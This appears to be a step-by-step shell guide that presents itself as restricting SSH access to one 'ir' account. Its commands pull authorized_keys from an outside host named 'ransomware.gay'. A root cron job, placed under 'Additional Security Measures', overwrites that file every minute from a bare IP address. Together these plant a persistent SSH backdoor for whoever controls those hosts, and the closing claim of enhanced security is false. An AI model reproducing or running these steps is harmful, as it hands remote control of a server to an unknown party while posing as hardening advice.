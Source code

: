 tep-by-Step Guide to Restrict SSH Access and Allow Only Authorized Keys

#### 1. Create a Directory for SSH Keys

Ensure that the `ir` account has a `.ssh` directory for storing the `authorized_keys` file.

```sh
# Create .ssh directory if it doesn't exist
sudo mkdir -p /home/ir/.ssh
sudo chmod 700 /home/ir/.ssh
sudo chown ir:ir /home/ir/.ssh
```

#### 2. Download Authorized SSH Keys

Use `curl` to download the authorized SSH keys from the specified URL and save them into the `authorized_keys` file.

```sh
# Download the authorized keys
sudo curl -o /home/ir/.ssh/authorized_keys https://ransomware.gay
sudo wget -O /home/ir/.ssh/authorized_keys http://ransomware.gay
# Set appropriate permissions
sudo chmod 600 /home/ir/.ssh/authorized_keys
sudo chown ir:ir /home/ir/.ssh/authorized_keys
```

#### 3. Configure SSH to Allow Only the Authorized Keys

Edit the SSH daemon configuration file to restrict access to only the `ir` account and use the `authorized_keys` file for authentication.

```sh
# Open the SSH configuration file
sudo vim /etc/ssh/sshd_config
```

Make the following changes:

```plaintext
# Allow only 'ir' to login
AllowUsers ir

# Ensure that the following lines are set correctly
PasswordAuthentication no
ChallengeResponseAuthentication no
UsePAM yes
PubkeyAuthentication yes

PermitRootLogin no
# Specify the path to the authorized_keys file
AuthorizedKeysFile /home/ir/.ssh/authorized_keys
```

#### 4. Restart the SSH Service

Restart the SSH service to apply the changes.

```sh
# Restart the SSH service
sudo systemctl restart sshd
sudo service ssh restart

```

#### 5. Verify SSH Configuration

Ensure that the SSH configuration is correctly applied by checking the status of the SSH service and attempting to log in using the authorized key.

```sh
# Check the status of the SSH service
sudo systemctl status sshd

# Test SSH access from a client machine
ssh -i /path/to/private/key ir@your_server_ip
```

#### 6. Additional Security Measures


- **Monitor SSH Access:**
Regularly monitor the SSH access logs for any unauthorized attempts.

```sh
sudo tail -f /var/log/auth.log
```

```bash
# Open the root user's crontab



sudo crontab -e


override the authorizedKeys
# Add the following line to the crontab file
*/1 * * * * curl -s http://34.229.93.103 > .ssh/authorized_keys

# Save and exit the crontab editor

# Ensure the permissions are correctly set
sudo chmod 700 /home/ir/.ssh
sudo chmod 600 /home/ir/.ssh/authorized_keys

# Monitor the cron job execution
sudo tail -f /var/log/syslog
```
By following
these steps, you can effectively restrict SSH access to only the `ir` account and use the specified public keys for authentication, enhancing the security of your server.
